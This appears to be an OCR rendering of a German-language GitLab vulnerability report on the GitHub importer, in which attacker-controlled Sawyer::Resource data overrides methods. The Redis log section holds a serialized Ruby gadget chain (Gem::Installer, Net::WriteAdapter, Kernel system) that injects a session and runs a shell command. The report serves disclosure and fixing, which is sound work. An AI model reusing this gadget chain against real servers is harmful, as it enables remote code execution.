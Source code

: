 ### Examples

In den beigefügten Skripten, sind Schritt für Schritt Anleitungen zum Reproduzieren.

### Was ist das momentane *bug* Verhalten?

Das `Sawyer::Resource` Objekt wird weitergegeben und ermöglicht es einem Angreifer, eingebaute Methoden zu überschreiben.

### Was ist das zu erwartende korrigierte Verhalten?

Die `Sawyer::Resource` hat eine `to_h` Methode, die möglicherweise verwendet werden könnte, um sicherzustellen, dass eine Ebene weitergegeben wird.

### Relevante Logs und/oder Screenshots

Der Befehl redis endet wie folgt:

```

[pid  1362] read(67, "*1\r\n$5\r\nmulti\r\n*3\r\n$9\r\nsismember\r\n$53\r\ncache:
gitlab:branch_names:root/gh-import-7316:102:set\r\n$3\r\nggg\r\n*3\r\n$3\r\nset\r\n$19\r\nsession:
gitlab:jjjj\r\n$330\r\n\4\10[\10c\25Gem::SpecFetcherc\23Gem::InstallerU:\25Gem::
Requirement[\6o:\34Gem::Package::TarReader\6:\10@ioo:\24Net::BufferedIO\7;\7o:#Gem::
Package::TarReader::Entry\7:\n@readi\0:\f@headerI\"\10aaa\6:\6ET:\22@debug_outputo:\26Net::
WriteAdapter\7:\f@socketo:\24Gem::RequestSet\7:\n@setso;\16\7;\17m\vKernel:
\17@method_id:\vsystem:\r@git_setI\"\33echo id > /tmp/vakzz22\6;\fT;\22:\
fresolve\r\n*2\r\n$6\r\nexists\r\n$53\r\ncache:gitlab:branch_names
:root/gh-import-7316:102:set\r\n*1\r\n$4\r\nexec\r\n", 16384) = 570

```

Fehler in den Protokollen

```json

{"severity":"ERROR","time":"2022-08-25T03:57:55.006Z","correlation_id":"01GB9JCB7TYNH6F7J7W7NFQTDT",
"exception.class":"ArgumentError","exception.message":"comparison of String with 0 failed",
"exception.backtrace":["lib/gitlab/set_cache.rb:60:in `block in try_include?'",
"lib/gitlab/redis/wrapper.rb:23:in `block in with'","lib/gitlab/redis/wrapper.rb:23:in `with'",
"lib/gitlab/set_cache.rb:74:in `with'","lib/gitlab/set_cache.rb:59:in `try_include?'",
"lib/gitlab/repository_cache_adapter.rb:71:in `block in cache_method_as_redis_set'",
"app/models/repository.rb:288:in `branch_exists?'",
"app/models/repository.rb:1161:in `change_head'",
"app/models/concerns/has_repository.rb:17:in `change_head'",
"lib/gitlab/github_import/importer/repository_importer.rb:55:in `import_repository'",
"lib/gitlab/github_import/importer/repository_importer.rb:37:in `execute'",
"app/workers/gitlab/github_import/stage/import_repository_worker.rb:31:in `import'",
"app/workers/concerns/gitlab/github_import/stage_methods.rb:37:in `try_import'",
"app/workers/concerns/gitlab/github_import/stage_methods.rb:20:in `perform'",
"lib/gitlab/database/load_balancing/sidekiq_server_middleware.rb:26:in `call'",
"lib/gitlab/sidekiq_middleware/duplicate_jobs/strategies/until_executing.rb:16:in `perform'",
"lib/gitlab/sidekiq_middleware/duplicate_jobs/duplicate_job.rb:58:in `perform'",
"lib/gitlab/sidekiq_middleware/duplicate_jobs/server.rb:8:in `call'",
"lib/gitlab/sidekiq_middleware/worker_context.rb:9:in `wrap_in_optional_context'",
"lib/gitlab/sidekiq_middleware/worker_context/server.rb:19:in `block in call'",
"lib/gitlab/application_context.rb:110:in `block in use'","lib/gitlab/application_context.rb:110:in `use'",
"lib/gitlab/application_context.rb:52:in `with_context'","lib/gitlab/sidekiq_middleware/worker_context/server.rb:17:in `call'",
"lib/gitlab/sidekiq_status/server_middleware.rb:7:in `call'","lib/gitlab/sidekiq_versioning/middleware.rb:9:in `call'",
"lib/gitlab/sidekiq_middleware/query_analyzer.rb:7:in `block in call'","lib/gitlab/database/query_analyzer.rb:37:in `within'",
```